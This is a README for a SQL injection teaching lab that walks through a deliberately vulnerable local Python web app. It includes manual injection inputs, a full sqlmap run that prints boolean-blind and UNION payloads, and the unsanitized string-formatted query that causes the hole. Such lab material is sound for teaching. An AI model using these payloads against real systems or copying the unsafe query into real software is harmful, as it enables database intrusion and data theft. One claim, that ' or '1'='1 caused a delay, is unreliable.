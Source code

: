 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves shows errors. This type of behavior indicates that the attack is not blind

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/sql-injection
```
Run the webapp using Python
```sh
python3 sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/1.png"></p>
One of the routes in the web app is /user that takes an id as a parameter, it returns info about the requested user in JSON format
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/2.png"></p>
If you enter ', you will get: unrecognized token: "'''", which is an error indicating the user's route interacts with a database
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay ' or '1'='1
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap -u "http://127.0.0.1:5142/user?id=1" -p id --dbms=sqlite --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.7#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:39:38 /2025-07-26/

[13:39:38] [INFO] testing connection to the target URL
[13:39:38] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.13.5')
[13:39:38] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:39:38] [INFO] testing if the target URL content is stable
[13:39:39] [INFO] target URL content is stable
[13:39:39] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[13:39:39] [INFO] testing for SQL injection on GET parameter 'id'
[13:39:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:39:39] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[13:39:39] [INFO] testing 'Generic inline queries'
[13:39:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:39:39] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:39:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:39:39] [INFO] target URL appears to have 7 columns in query
[13:39:39] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1533=1533 AND 'rZkz'='rZkz

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-6078' UNION ALL SELECT NULL,NULL,CHAR(113,120,98,113,113)||CHAR(98,89,100,100,105,70,90,116,73,114,112,70,101,121,79,80,73,86,73,76,79,67,119,108,102,106,109,66,90,77,120,112,103,99,87,103,79,113,99,79)||CHAR(113,120,118,107,113),NULL,NULL,NULL,NULL-- OsvX
---
[13:39:39] [INFO] testing SQLite
[13:39:39] [INFO] confirming SQLite
[13:39:39] [INFO] actively fingerprinting SQLite
[13:39:39] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[13:39:39] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 13:39:39 /2025-07-26/
```

## Code
When you request info about user using an known id, the get_user is called
```py
elif parsed_url.path == '/user' and "id" in get_request_data:
    self.send_content_raw(200, [('Content-type', 'application/json')], self.get_user(get_request_data["id"][0]))
    return
```
The get_user() function returns info about a user using their id without checking if the id is sanitized
```py
    def get_user(self,id_=None):
        ret = b""
        try:
            if id_ != None:
                with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
                    cursor = connection.cursor()
                    results = cursor.execute("SELECT * FROM users WHERE id='%s'" % (id_)).fetchone()
                    return dumps(results).encode('utf-8')
        except Exception as e:
            ret = str(e).encode("utf-8")
        return ret
```
